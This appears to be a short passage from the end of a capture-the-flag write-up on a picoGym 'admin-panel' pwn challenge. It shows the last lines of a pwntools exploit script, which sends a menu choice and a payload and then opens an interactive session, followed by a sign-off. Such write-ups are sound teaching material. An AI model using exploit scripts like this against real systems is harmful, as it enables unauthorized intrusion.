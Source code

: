 ```python
p.sendline(b'2')
p.recvuntil(b'wrong:')
p.sendline(payload)

p.interactive()
```

![admin-panel10](/assets/img/picogym-pwn-easy/admin-panel/admin-panel10.png)

That's it. I hope you liked it :)
